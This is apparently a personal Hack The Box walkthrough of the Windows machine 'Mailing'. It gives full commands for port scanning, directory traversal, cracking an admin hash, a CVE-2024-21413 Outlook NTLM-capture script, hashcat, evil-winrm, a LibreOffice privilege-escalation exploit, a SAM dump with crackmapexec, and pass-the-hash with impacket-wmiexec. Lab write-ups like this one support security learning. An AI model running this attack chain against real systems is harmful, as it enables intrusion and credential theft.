

**Start 21:08 30/07**

---

## Nmap recon

As always we start off with an `nmap` scan to figure out what ports are open.
Learning from previous `machines` I've found a more thorough way to scan ports:

```bash
nmap -sC -sV -Pn -oA tcp -p- -T4 -vvvv --reason IP_ADDR
```

Using this `nmap` command we get the following extensive output:

```bash
Discovered open port 110/tcp on 10.10.11.14
Discovered open port 445/tcp on 10.10.11.14
Discovered open port 25/tcp on 10.10.11.14
Discovered open port 993/tcp on 10.10.11.14
Discovered open port 139/tcp on 10.10.11.14
Discovered open port 143/tcp on 10.10.11.14
Discovered open port 135/tcp on 10.10.11.14
Discovered open port 587/tcp on 10.10.11.14
Discovered open port 80/tcp on 10.10.11.14
Discovered open port 62093/tcp on 10.10.11.14
Discovered open port 5985/tcp on 10.10.11.14
Discovered open port 49668/tcp on 10.10.11.14
Connect Scan Timing: About 16.30% done; ETC: 20:17 (0:02:39 remaining)
Discovered open port 49665/tcp on 10.10.11.14
Discovered open port 49666/tcp on 10.10.11.14
Discovered open port 47001/tcp on 10.10.11.14
Connect Scan Timing: About 42.55% done; ETC: 20:17 (0:01:22 remaining)
Discovered open port 49667/tcp on 10.10.11.14
Discovered open port 49664/tcp on 10.10.11.14
Discovered open port 60408/tcp on 10.10.11.14
Connect Scan Timing: About 71.41% done; ETC: 20:16 (0:00:36 remaining)
Discovered open port 5040/tcp on 10.10.11.14
Discovered open port 7680/tcp on 10.10.11.14
Discovered open port 465/tcp on 10.10.11.14
```

Right away we see that there's an absolute boatload amount of ports open. 
Since there's so much info, I've decided to put the scan in a code block rather than a screen shot.

```bash
Host is up, received user-set (0.0053s latency).
Scanned at 2024-07-30 20:14:38 IST for 322s
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON  VERSION
25/tcp    open  smtp          syn-ack hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://mailing.htb
110/tcp   open  pop3          syn-ack hMailServer pop3d
|_pop3-capabilities: UIDL TOP USER
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
143/tcp   open  imap          syn-ack hMailServer imapd
|_imap-capabilities: IMAP4 RIGHTS=texkA0001 IMAP4rev1 SORT NAMESPACE CAPABILITY completed QUOTA ACL OK IDLE CHILDREN
445/tcp   open  microsoft-ds? syn-ack
465/tcp   open  ssl/smtp      syn-ack hMailServer smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/emailAddress=ruy@mailing.htb/localityName=Madrid/organizationalUnitName=MAILING
| Issuer: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/emailAddress=ruy@mailing.htb/localityName=Madrid/organizationalUnitName=MAILING
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-27T18:24:10
| Not valid after:  2029-10-06T18:24:10
| MD5:   bd32:df3f:1d16:08b8:99d2:e39b:6467:297e
| SHA-1: 5c3e:5265:c5bc:68ab:aaac:0d8f:ab8d:90b4:7895:a3d7
| -----BEGIN CERTIFICATE-----
| MIIDpzCCAo8CFAOEgqHfMCTRuxKnlGO4GzOrSlUBMA0GCSqGSIb3DQEBCwUAMIGP
| MQswCQYDVQQGEwJFVTERMA8GA1UECAwIRVVcU3BhaW4xDzANBgNVBAcMBk1hZHJp
| ZDEUMBIGA1UECgwLTWFpbGluZyBMdGQxEDAOBgNVBAsMB01BSUxJTkcxFDASBgNV
| BAMMC21haWxpbmcuaHRiMR4wHAYJKoZIhvcNAQkBFg9ydXlAbWFpbGluZy5odGIw
| HhcNMjQwMjI3MTgyNDEwWhcNMjkxMDA2MTgyNDEwWjCBjzELMAkGA1UEBhMCRVUx
| ETAPBgNVBAgMCEVVXFNwYWluMQ8wDQYDVQQHDAZNYWRyaWQxFDASBgNVBAoMC01h
| aWxpbmcgTHRkMRAwDgYDVQQLDAdNQUlMSU5HMRQwEgYDVQQDDAttYWlsaW5nLmh0
| YjEeMBwGCSqGSIb3DQEJARYPcnV5QG1haWxpbmcuaHRiMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEAqp4+GH5rHUD+6aWIgePufgFDz+P7Ph8l8lglXk4E
| wO5lTt/9FkIQykSUwn1zrvIyX2lk6IPN+airnp9irb7Y3mTcGPerX6xm+a9HKv/f
| i3xF2oo3Km6EddnUySRuvj8srEu/2REe/Ip2cIj85PGDOEYsp1MmjM8ser+VQC8i
| ESvrqWBR2B5gtkoGhdVIlzgbuAsPyriHYjNQ7T+ONta3oGOHFUqRIcIZ8GQqUJlG
| pyERkp8reJe2a1u1Gl/aOKZoU0yvttYEY1TSu4l55al468YAMTvR3cCEvKKx9SK4
| OHC8uYfnQAITdP76Kt/FO7CMqWWVuPGcAEiYxK4BcK7U0wIDAQABMA0GCSqGSIb3
| DQEBCwUAA4IBAQCCKIh0MkcgsDtZ1SyFZY02nCtsrcmEIF8++w65WF1fW0H4t9VY
| yJpB1OEiU+ErYQnR2SWlsZSpAqgchJhBVMY6cqGpOC1D4QHPdn0BUOiiD50jkDIx
| Qgsu0BFYnMB/9iA64nsuxdTGpFcDJRfKVHlGgb7p1nn51kdqSlnR+YvHvdjH045g
| ZQ3JHR8iU4thF/t6pYlOcVMs5WCUhKKM4jyucvZ/C9ug9hg3YsEWxlDwyLHmT/4R
| 8wvyaiezGnQJ8Mf52qSmSP0tHxj2pdoDaJfkBsaNiT+AKCcY6KVAocmqnZDWQWut
| spvR6dxGnhAPqngRD4sTLBWxyTTR/brJeS/k
|_-----END CERTIFICATE-----
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
587/tcp   open  smtp          syn-ack hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/emailAddress=ruy@mailing.htb/localityName=Madrid/organizationalUnitName=MAILING
| Issuer: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/emailAddress=ruy@mailing.htb/localityName=Madrid/organizationalUnitName=MAILING
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-27T18:24:10
| Not valid after:  2029-10-06T18:24:10
| MD5:   bd32:df3f:1d16:08b8:99d2:e39b:6467:297e
| SHA-1: 5c3e:5265:c5bc:68ab:aaac:0d8f:ab8d:90b4:7895:a3d7
| -----BEGIN CERTIFICATE-----
| MIIDpzCCAo8CFAOEgqHfMCTRuxKnlGO4GzOrSlUBMA0GCSqGSIb3DQEBCwUAMIGP
| MQswCQYDVQQGEwJFVTERMA8GA1UECAwIRVVcU3BhaW4xDzANBgNVBAcMBk1hZHJp
| ZDEUMBIGA1UECgwLTWFpbGluZyBMdGQxEDAOBgNVBAsMB01BSUxJTkcxFDASBgNV
| BAMMC21haWxpbmcuaHRiMR4wHAYJKoZIhvcNAQkBFg9ydXlAbWFpbGluZy5odGIw
| HhcNMjQwMjI3MTgyNDEwWhcNMjkxMDA2MTgyNDEwWjCBjzELMAkGA1UEBhMCRVUx
| ETAPBgNVBAgMCEVVXFNwYWluMQ8wDQYDVQQHDAZNYWRyaWQxFDASBgNVBAoMC01h
| aWxpbmcgTHRkMRAwDgYDVQQLDAdNQUlMSU5HMRQwEgYDVQQDDAttYWlsaW5nLmh0
| YjEeMBwGCSqGSIb3DQEJARYPcnV5QG1haWxpbmcuaHRiMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEAqp4+GH5rHUD+6aWIgePufgFDz+P7Ph8l8lglXk4E
| wO5lTt/9FkIQykSUwn1zrvIyX2lk6IPN+airnp9irb7Y3mTcGPerX6xm+a9HKv/f
| i3xF2oo3Km6EddnUySRuvj8srEu/2REe/Ip2cIj85PGDOEYsp1MmjM8ser+VQC8i
| ESvrqWBR2B5gtkoGhdVIlzgbuAsPyriHYjNQ7T+ONta3oGOHFUqRIcIZ8GQqUJlG
| pyERkp8reJe2a1u1Gl/aOKZoU0yvttYEY1TSu4l55al468YAMTvR3cCEvKKx9SK4
| OHC8uYfnQAITdP76Kt/FO7CMqWWVuPGcAEiYxK4BcK7U0wIDAQABMA0GCSqGSIb3
| DQEBCwUAA4IBAQCCKIh0MkcgsDtZ1SyFZY02nCtsrcmEIF8++w65WF1fW0H4t9VY
| yJpB1OEiU+ErYQnR2SWlsZSpAqgchJhBVMY6cqGpOC1D4QHPdn0BUOiiD50jkDIx
| Qgsu0BFYnMB/9iA64nsuxdTGpFcDJRfKVHlGgb7p1nn51kdqSlnR+YvHvdjH045g
| ZQ3JHR8iU4thF/t6pYlOcVMs5WCUhKKM4jyucvZ/C9ug9hg3YsEWxlDwyLHmT/4R
| 8wvyaiezGnQJ8Mf52qSmSP0tHxj2pdoDaJfkBsaNiT+AKCcY6KVAocmqnZDWQWut
| spvR6dxGnhAPqngRD4sTLBWxyTTR/brJeS/k
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
993/tcp   open  ssl/imap      syn-ack hMailServer imapd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/emailAddress=ruy@mailing.htb/localityName=Madrid/organizationalUnitName=MAILING
| Issuer: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/emailAddress=ruy@mailing.htb/localityName=Madrid/organizationalUnitName=MAILING
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-27T18:24:10
| Not valid after:  2029-10-06T18:24:10
| MD5:   bd32:df3f:1d16:08b8:99d2:e39b:6467:297e
| SHA-1: 5c3e:5265:c5bc:68ab:aaac:0d8f:ab8d:90b4:7895:a3d7
| -----BEGIN CERTIFICATE-----
| MIIDpzCCAo8CFAOEgqHfMCTRuxKnlGO4GzOrSlUBMA0GCSqGSIb3DQEBCwUAMIGP
| MQswCQYDVQQGEwJFVTERMA8GA1UECAwIRVVcU3BhaW4xDzANBgNVBAcMBk1hZHJp
| ZDEUMBIGA1UECgwLTWFpbGluZyBMdGQxEDAOBgNVBAsMB01BSUxJTkcxFDASBgNV
| BAMMC21haWxpbmcuaHRiMR4wHAYJKoZIhvcNAQkBFg9ydXlAbWFpbGluZy5odGIw
| HhcNMjQwMjI3MTgyNDEwWhcNMjkxMDA2MTgyNDEwWjCBjzELMAkGA1UEBhMCRVUx
| ETAPBgNVBAgMCEVVXFNwYWluMQ8wDQYDVQQHDAZNYWRyaWQxFDASBgNVBAoMC01h
| aWxpbmcgTHRkMRAwDgYDVQQLDAdNQUlMSU5HMRQwEgYDVQQDDAttYWlsaW5nLmh0
| YjEeMBwGCSqGSIb3DQEJARYPcnV5QG1haWxpbmcuaHRiMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEAqp4+GH5rHUD+6aWIgePufgFDz+P7Ph8l8lglXk4E
| wO5lTt/9FkIQykSUwn1zrvIyX2lk6IPN+airnp9irb7Y3mTcGPerX6xm+a9HKv/f
| i3xF2oo3Km6EddnUySRuvj8srEu/2REe/Ip2cIj85PGDOEYsp1MmjM8ser+VQC8i
| ESvrqWBR2B5gtkoGhdVIlzgbuAsPyriHYjNQ7T+ONta3oGOHFUqRIcIZ8GQqUJlG
| pyERkp8reJe2a1u1Gl/aOKZoU0yvttYEY1TSu4l55al468YAMTvR3cCEvKKx9SK4
| OHC8uYfnQAITdP76Kt/FO7CMqWWVuPGcAEiYxK4BcK7U0wIDAQABMA0GCSqGSIb3
| DQEBCwUAA4IBAQCCKIh0MkcgsDtZ1SyFZY02nCtsrcmEIF8++w65WF1fW0H4t9VY
| yJpB1OEiU+ErYQnR2SWlsZSpAqgchJhBVMY6cqGpOC1D4QHPdn0BUOiiD50jkDIx
| Qgsu0BFYnMB/9iA64nsuxdTGpFcDJRfKVHlGgb7p1nn51kdqSlnR+YvHvdjH045g
| ZQ3JHR8iU4thF/t6pYlOcVMs5WCUhKKM4jyucvZ/C9ug9hg3YsEWxlDwyLHmT/4R
| 8wvyaiezGnQJ8Mf52qSmSP0tHxj2pdoDaJfkBsaNiT+AKCcY6KVAocmqnZDWQWut
| spvR6dxGnhAPqngRD4sTLBWxyTTR/brJeS/k
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: IMAP4 RIGHTS=texkA0001 IMAP4rev1 SORT NAMESPACE CAPABILITY completed QUOTA ACL OK IDLE CHILDREN
5040/tcp  open  unknown       syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?    syn-ack
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
60408/tcp open  msrpc         syn-ack Microsoft Windows RPC
62093/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: mailing.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-07-30T19:19:23
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 29452/tcp): CLEAN (Timeout)
|   Check 2 (port 58328/tcp): CLEAN (Timeout)
|   Check 3 (port 37492/udp): CLEAN (Timeout)
|   Check 4 (port 10619/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 0s
```

As always before going further we'll add the `IP_ADDR` to our `/etc/hosts` file.

After this we can go ahead and look up the website which is running on port `80`.

## 80/TCP - HTTP

Heading to the site we are greeted with the following screen.


I noticed that there was a `Download Instructions` button leading to a `pdf` file with some instructions on downloading the mailing server on separate OS's. Furthermore the site mentioned it being powered by `hMailServer`.

Doing a quick `searchsploit` search for it we find 3 different exploits:


--- 
**BREAK 21:53 30/07**
**CONTINUE 10:16 31/07**

--- 
==Directory enumeration==
After trying out enumeration using `Gobuster` I didn't find anything useful, I decided to try again using `Dirsearch` and luckily enough stumbled upon the following:


There appears to be a `/download.php` file directory. 


## Directory Traversal

==BurpSuite==
After trying the URL there appear to be no files. We can try to analyse this further using    `BurpSuite`. After sending a `GET` request using `repeater` we find out that a [Directory Traversal](https://portswigger.net/web-security/file-path-traversal) attack could be possible! In short this means:

```markdown
Path traversal is also known as directory traversal. These vulnerabilities enable an attacker to read arbitrary files on the server that is running an application. This might include:

- Application code and data.
- Credentials for back-end systems.
- Sensitive operating system files.

In some cases, an attacker might be able to write to arbitrary files on the server, allowing them to modify application data or behavior, and ultimately take full control of the server.
```

If we read further on about `Directory Traversal` on the `portswigger.net` website we see the following explanation:


Using this logic we can use `BurpSuite` to intercept the traffic, and then modify the `request` in `repeater`.


After this we `forward` it to `repeater` as mentioned previously. Here we modify the `request` in order to traverse to the necessary files as such:


After modifying our `request` we notice the `response` gives us a full list of the `Directories` inside the folder. Here we also see under the `[Security]` tab an admin password mentioned:

```
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
```

==Hash cracking==
It appears to be encoded so we'll have to decipher it using any `hashcracker` tool.
Using my preferred password cracker for this instance, [CrackStation](https://crackstation.net/), we gain the following info:


We see that it's an `md5` hash, and our cracked password hash appears in the `Result` tab:

```
homenetworkingadministrator
```

## NTLMv2 Hash

==CVE-2024-21413==
Next up we will try to gain an initial foothold inside the Mailing server. Using the instructions from [this](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability?tab=readme-ov-file) `ReadMe` we will walk through the process, thankfully it has already been explained to us fairly well.
First of all we'll have to download the `CVE.py` script from the `GitHub` page.
After downloading the zip file and changing `rwx` permissions we can now start on executing the script. Before we do that we want to turn on `responder` first as mentioned in the `CVE ReadMe`.


Now we can start to execute the script together with all the necessary paremeters.
The script looks as follows:

```bash
python CVE-2024-21413.py --server "<SMTP server>" --port <SMTP port> --username 
"<SMTP username>" --password "<SMTP password>" --sender "<sender email>" 
--recipient "<recipient email>" --url "<link URL>" --subject "<email subject>"
```

Here we want to modify:

```bash
--server "mailing.htb" # Our mailing server
--port 587 # As seen in the NMAP scan, this port runs SMTP
--username "administrator@mailing.htb" # Since the cracked hash mentioned it being the admin password 
--passowrd "homenetworkingadministrator" # Cracked hash
--sender "administrator@mailing.htb"
--recipient "maya@mailing.htb" # Name that was mentioned on the webpage
--url "\\10.10.15.38\test\meeting" # Our IP_ADDR
--subject "Test"
```

Now let's put all this together:

```bash
python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url "\\10.10.15.38\test\meeting" --subject "Test"
```

Then after sending the mail multiple times (and frustratingly thinking it didn't work) it appeared to work and we got `Maya's` hash out of it:


As you can see I grew quite frustrated and kept sending the mail over and over again, not knowing whether something was wrong with it.

==Maya's hash==
More importantly, after getting the `NTLMv2 hash` we can now start to crack it.

```
maya::MAILING:ce5b107646de9595:D5A804D11C40F634AF6FBB05F00E74DC:010100000000000080787DB334E3DA0125ACD0F713C0A6DD0000000002000800500038005500540001001E00570049004E002D004800300058004300450058004A0047004E003900520004003400570049004E002D004800300058004300450058004A0047004E00390052002E0050003800550054002E004C004F00430041004C000300140050003800550054002E004C004F00430041004C000500140050003800550054002E004C004F00430041004C000700080080787DB334E3DA01060004000200000008003000300000000000000000000000002000000A5E41FCFE7F00F595696C618A67B3BAFA8AB88C5AB1E7FF5E7310A8E3C24A6D0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310035002E00330038000000000000000000
```

I tried `crackstation` again, but that didn't work, which means we'll have to use either `John` or `HashCat` to crack this hash, I'll start with `HashCat` first. Before we do this though it is easier to put the cracked hash into a `.txt` file in order to make cracking easier for us.

We input the following command:

```bash
hashcat -a 0 -m 5600 hash.txt /usr/share/wordlists/rockyou.txt.gz
```

And after a few seconds of cracking we get the following password:

```
m4y4ngs4ri
```

Now that we have a set of user credentials we need to find a port on which we can use them. From our `NMAP` scan results we saw that port `5985` was open. This is a `TCP` port which is used to service `winrm` aka `Microsoft Windows Remote Management`. This means that we can try to hack into it using these credentials and gain a `remote shell`. After looking up on Google what tools exist to connect to `winrm` using `Kali` we found out that by default there's a tool installed called `evil-winrm`.


---
**BREAK 11:50 31/07**
**CONTINUE 13:05 31/07**

---

## 5985/TCP - HTTP

==evil-winrm==
As always for all tools that we have never used before we'll start out by using the `-h` command to get instructions on how to use it correctly:


It looks pretty straightforward, we just need to input the `IP_ADDR` the `USER` and `PASS` and we're ready to connect.



And just like that we got a remote shell, now we can start enumerating the user.

## Flags

==user.txt==
After backtracking a few directories we wind up in `maya's home directory`. From here we just need to use the following `PowerShell` script.

>Remember, we are now in a PowerShell terminal, not bash, meaning we need to issue different commands.

We can use the following command to find the file we are looking for:

```powershell
Get-ChildItem -Filter user.txt -Recurse
```

Using this command we can easily find the file in the `Desktop` directory.


After using `cat` on the `user.txt` file we get the following flag:

```
3b7d5dd7f1435031039af36eefd77535
```

==root.txt==
Getting the user flag was fairly straightforward, now we need to gain admin privileges and get the `root.txt` flag. After some digging around I found a `LibreOffice` directory. In here I managed to find the version by reading the `readme` file:


We can look up if there's any exploits for it by using our trusty `searchsploit`.
While `searchsploit` yielded no results for our current version, I did manage to find `CVE-2023-2255` which is a `CVE` proof of concept about `Improper access control in editor components of The  Document Foundation LibreOffice`. The full proof of concept can be found [here](https://nvd.nist.gov/vuln/detail/CVE-2023-2255). 
Luckily for us someone has already made a Python script to leverage this `CVE`.

Reading through the script, the arguments seem pretty straight forward enough:


This means we'll have to `add maya to localgroup of admin users` using the `--cmd` option. To find out what exact syntax we need to use for this I'll use Google yet again.

So first of all we can check the `user groups` of Maya using `net users maya`:


Since the user groups appear to be in Spanish, we'll have to use the correct translation for `Administrators` -> (==Administradores==) in order to successfully add the user to the group.  

Now back to the `CVE`, we need to add Maya to the `admin group`. We'll use this with the following command:


Now we just need to `curl` our file to the `evil-winrm` shell. Don't forget to `chmod +x` the `exploit.odt` file or you won't have `execute` permissions. 
We will have to run a `python http.server` in order to accomplish this.


Now the file has been transported to our `winrm shell`, we just have to `./exploit.odt` and we should be added to the `admin group` now.


Bingo! Now we can use `crackmapexec`in order to gain the `local admin hash`.
We will do it using the following command:

```bash
crackmapexec smb 10.10.11.14 -u maya -p "m4y4ngs4ri" --sam 
```


As you can see we got the `localadmin hash` as:

```bash
localadmin:1001:aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae:::
```

We can now use this hash to create a new remote connection as the root user, for this we will use the `impacket-wmiexec` tool:

```bash
impacket-wmiexec localadmin@10.10.11.14 -hashes "HASH"
```


And just like that we gained a `root shell`! Now onto finding the `root.txt` file. Just like the `user.txt` file it was pretty easy to find:


```
5e314b68ea83dc45dccd4bf0b0982dc1
```


---

**Finished 14:15 31/07**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
